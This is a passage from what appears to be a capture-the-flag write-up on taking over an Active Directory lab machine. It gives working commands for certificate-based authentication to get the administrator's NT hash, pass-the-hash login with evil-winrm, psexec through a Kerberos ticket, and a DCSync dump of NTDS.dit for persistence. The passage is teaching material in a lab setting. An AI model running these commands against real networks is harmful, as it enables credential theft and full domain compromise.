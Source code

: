 3.  **Authenticate as the Administrator using the certificate**:
    -   Now we authenticate with the certificate, to receive the NT hash of the Administrator user:
        ```shell
        certipy-ad auth -pfx administrator.pfx -domain $domain
        ```
    -   {{< figure src="/ox-hugo/2025-01-15-080127_.png" >}}

4.  **Verify it works**:
    -   Using evil-winrm
        ```shell
          evil-winrm -i $box -u administrator -H $hash
        ```

        -   {{< figure src="/ox-hugo/2025-01-15-080236_.png" >}}

    -   Using the `.ccache`
        ```shell
        #Load the .ccache into the KRB5CCNAME var
        export KRB5CCNAME=./administrator.ccache

        #Use impacket-psexec
        impacket-psexec -k -no-pass $machine.$domain
        ```

        -   {{< figure src="/ox-hugo/2025-01-15-081439_.png" >}}
        -   I knew it work but always better to validate.

5.  **Lets get the root flag**:
    -   {{< figure src="/ox-hugo/2025-01-15-083906_.png" >}}


## 5. Persistence: {#5-dot-persistence}

-   You may be wondering why we would look at persistence if we already have a valid administrator certificate. However if we examine the expiration time on the cert we can see its only valid for 10 hours.
    ```shell
    klist
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-081634_.png" >}}

-   So instead I will dump the `NTDS.dit` &amp; create a golden ticket for good measure.


### Dumping NTDS.dit/DCSync attack: {#dumping-ntds-dot-dit-dcsync-attack}

-   **Perform DCSync attack using netexec**:
    ```nil
    netexec smb $box -u administrator --use-kcache -M ntdsutil
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-082140_.png" >}}

-   **Extract all hashes from netexec**
    ```shell
    for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done
    ```
